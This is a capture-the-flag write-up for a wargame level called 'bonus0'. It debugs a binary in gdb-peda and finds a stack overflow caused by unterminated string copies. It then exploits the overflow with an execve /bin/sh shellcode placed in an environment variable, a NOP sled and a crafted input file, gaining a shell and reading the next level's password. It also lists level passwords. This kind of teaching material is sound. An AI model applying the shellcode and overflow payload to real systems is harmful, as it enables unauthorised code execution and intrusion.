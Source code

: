 # Bonus0 - Code redirection using environnment variable

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| bonus0 | `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728` |
| bonus1 | `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute the binary

```shell
~/bonus0 aaa
  -
  (stdin) a
  -
  (stdin) b
  > a b
```

There is 2 prompts, and it concatenates them.

Lets debug the binary

```shell
(gdb) info functions
0x080484b4  p
0x0804851e  pp
0x080485a4  main
```

See our assembly interpretation in [source file](../source.c)

We can see there is 2 prompts that read at most 4096. Then replace the first `\n` with a `\0`. And then extract 20 chars and concatenate them together.
But if there is no `\n` is the first 20 characters, there is a problem.

Lets check that together, what if we write exactly 20 chars.

```shell
./bonus0
   -
  (stdin) AAAAAAAAAAAAAAAAAAA # 19 chars
   -
  (stdin) BBBBBBBBBBBBBBBBBBBB # 20 chars
  > AAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBB
# It pass with 19 chars in the 1st prompt

./bonus0
  -
  (stdin) AAAAAAAAAAAAAAAAAAAA # 20 chars
  -
  (stdin) BBBBBBBBBBBBBBBBBBBB # 20 chars
  > AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBBBB
  Segmentation fault (core dumped)
```

It segfaults with 20 characters in the first buffer.

Lets debug that.

```shell
gdb-peda$ b*main+18
  (stdin) ABCDEFGHIJKLMNOPQRSTUVWXYZ (A-T 20)
  (stdin) abcdefghijklmnopqrstuvwxyz
gdb-peda$ run
gdb-peda$ x/50x $esp+0x16
  0xbffff616:[0x44434241	0x48474645	0x4c4b4a49	0x504f4e4d
  0xbffff626:	0x54535251][0x64636261	0x68676665  0x6c6b6a69
  0xbffff636:	0x706f6e6d	0x74737271][0xb7fd0ff4][0x63626120
  0xbffff646:	0x67666564	0x6b6a6968	0x6f6e6d6c	0x73727170]
  0xbffff656:	0xfd0ff474	0xc85800b7	0x0000b7fd	0xf61c0000

# [A-T][a-t][0xb7fd0ff4][a-c]' '[d-s]
# 20    20  4            3    1  16

gdb-peda$ continue
  EIP: 0x6d6c6b6a ('jklm')
  Invalid $PC address: 0x6d6c6b6a
  Stopped reason: SIGSEGV
  0x6d6c6b6a in ?? ()
```

Since we injected 20 chars in the prompts, there is like an overflow and it tries to access to the address `0x6d6c6b6a` ('jklm').

Maybe we could set a shellcode as environment variable, and redirect the code to the shellcode address.

We set the shellcode environment variable:

```shell
export SHELLCODE=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

We get the shellcode address:

```shell
gdb-peda$ searchmem SHELLCODE
  [stack] : 0xbffff864 ("SHELLCODE=1\300Ph//shh/bin\211\343PS\211\341\260\v̀")
gdb-peda$ p 0xbffff864 + 10 # (length of "SHELLCODE=")
  $1 = 0xbffff86e
```

Then we replace the part "jklm" in the second prompt with the shellcode address :

```shell
# First prompt: A * 4095 + '\n' (=> to fill exactly the first prompt)
# Second prompt: abcdefghi\x6e\xf8\xff\xbfnopqrstuvwxyz

python -c 'print "A" * 4095 + "\n" + "abcdefghi" + "\x6e\xf8\xff\xbf" + "nopqrstuvwxyz"' > /tmp/exploit10
```

Lets try in gdb

```shell
gdb-peda$ run < /tmp/exploit10
  AAAAAAAAAAAAAAAAAAAAabcdefghivnopqrst abcdefghivnopqrst
> process 6716 is executing new program: /bin/dash
```

It seems that works, lets try directly with the binary:

```shell
cat /tmp/exploit10 - | ~/bonus0
  AAAAAAAAAAAAAAAAAAAAabcdefghivnopqrst abcdefghivnopqrst
id
> Segmentation fault (core dumped)
```

Unfortunately, it works perfectly with gdb but not out of debugger.

In this [post](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it), the first contributor argues _"the stack addresses in the debugger may not match the addresses during normal execution"_.

So maybe our shellcode address is not exact.

Another contributor advices us to put some NOP Sled before our malicious code.

We will modify our shellcode and put some NOP Sled before the shellcode to approximate the exact shellcode address.

```bash
export SHELLCODE=$(python -c 'print "\x90" * 0xff + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

```shell
gdb-peda$ searchmem SHELLCODE
  [stack] : 0xbffff764 ("SHELLCODE=1\300Ph//shh/bin\211\343PS\211\341\260\v̀")
gdb-peda$ p 0xbffff764 + 10 # (length of "SHELLCODE=")
  $1 = 0xbffff76e

python -c 'print "A" \* 4095 + "\n" + "abcdefghi" + "\x6e\xf7\xff\xbf" + "nopqrstuvwxyz"' > /tmp/exploit10

cat /tmp/exploit10 - | ~/bonus0
   -
   -
  > AAAAAAAAAAAAAAAAAAAAabcdefghiwnopqrst abcdefghiwnopqrst
  $ whoami
  > bonus1
  $ cat /home/user/bonus1/.pass
  > cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

---

## Sources

### Hack

- [Buffer overflow et variable d'environnement](https://www.hacktion.be/buffer-overflow-variable-environnement/)
- [Buffer overflow works in gdb but not without it](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it)

### C

- [Man puts](https://linux.die.net/man/3/puts)
- [Man read](https://linux.die.net/man/3/read)
- [Man strchr](https://linux.die.net/man/3/strchr)
- [Man strcpy](https://linux.die.net/man/3/strcpy)
- [Man strncpy](https://linux.die.net/man/3/strncpy)
- [Man strcat](https://linux.die.net/man/3/strcat)
